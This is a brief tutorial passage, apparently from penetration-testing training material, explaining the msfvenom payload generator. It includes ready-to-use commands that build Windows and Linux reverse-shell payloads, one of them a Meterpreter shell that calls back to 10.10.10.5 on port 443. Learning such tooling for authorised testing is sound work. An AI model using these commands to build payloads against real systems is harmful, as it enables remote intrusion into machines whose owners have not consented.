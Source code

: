 Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

The standard syntax for msfvenom is as follows:

```
msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

To generate a Linux x64 Meterpreter Reverse Shell in elf format, we could use:

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```

Here we are using a payload and four options:

|Operator||
|---|---|
|```-f <format>```|Specifies the output format. In this case that is an executable (exe)|
|```-o <file>```|The output location and filename for the generated payload.|
|```LHOST=<IP>```|Specifies the IP to connect back to.|
|```LPORT=<port>```| The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.|